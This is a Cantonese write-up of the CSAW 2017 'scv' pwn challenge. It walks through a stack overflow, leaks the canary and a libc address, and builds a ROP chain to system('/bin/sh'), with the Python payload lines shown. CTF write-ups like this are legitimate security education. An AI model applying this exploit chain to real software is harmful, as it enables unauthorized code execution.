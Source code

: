 # CSAW 2017 pwn 100 scv

# 題目:


>                                         SCV
>            SCV is too hungry to mine the minerals. Can you give him some food?
>                                 nc pwn.chal.csaw.io 3764

>[scv](scv)

>[ibc-2.23.so](ibc-2.23.so)


呢題有少少煩,不過唔難

Checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
IO dump:

```
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>

```

有3個function:

1.入buffer

2.print buffer

3.exit


Ida code (由於好多廢話,所以淨係留重點)

```C++
                .
                .
 char buf; // [sp+10h] [bp-B0h]@6
                .
                .

   v23 = read(0, &buf, 248uLL);             .

```

有用嘅其實只有一/兩句,其他都係廢話

呢兩句identify 左有buffer overflow, buffer只有176 byte,但係可以讀248,仲唔死

asm code:

```asm
.text:0000000000400A96 buf             = byte ptr -0B0h
.text:0000000000400A96 var_8           = qword ptr -8
.text:0000000000400A96
.text:0000000000400A96                 push    rbp
.text:0000000000400A97                 mov     rbp, rsp
.text:0000000000400A9A                 sub     rsp, 0C0h
.text:0000000000400AA1                 mov     rax, fs:28h
.text:0000000000400AAA                 mov     [rbp+var_8], rax
.text:0000000000400AAE                 xor     eax, eax
.text:0000000000400AB0                 mov     rax, cs:stdout

```

我地知道canary 係rbp-8, 只要leak到canary,就可以任意寫return address, get shell

經過少少測試之後,會發現print buffer function會print多左8個位 or until \x00

我地知道嘅尾數係\x00, 所以我地只要寫到尾數做其他野就leak到canary

leak canary payload= payload='b'*167+'a'+'g'

只要將leak到嘅canary減0x67(g),就等於canary number

下一步就係leak libc address..

係之前d測試,除左發現會print多左8個位之外,我仲發現只要寫爛左canary,一禁exit 就可以stack check fail,姐係代表我地可以用exit return去其他return address,只要我地拎到canary, return address 就任我地寫

由於有nx,所以只可以rop return to libc解決

由於係x64,x64有calling convention,puts係讀rdi嘅parameters,所以就一個pop_rdi_ret gadget mov puts or whatever got 入去,puts_plt print

Print 完再彈返去main

full gadget= pop_rdi_ret+PUTSGOT+PUTSPLT+main

```python

payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(PUTSGOT)+p64(PUTSPLT)+p64(main)

```


呢到要注意一樣野,main係要跳返去initial variable個部份,不過因為個process冇熄過,所以canary同libcbase係唔會改

拎晒libc_base 之後,加返d offset,係入buffer個個位入:

```python
payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(libc_bin_sh)+p64(system)+p64(main)

```
exit 彈shell 
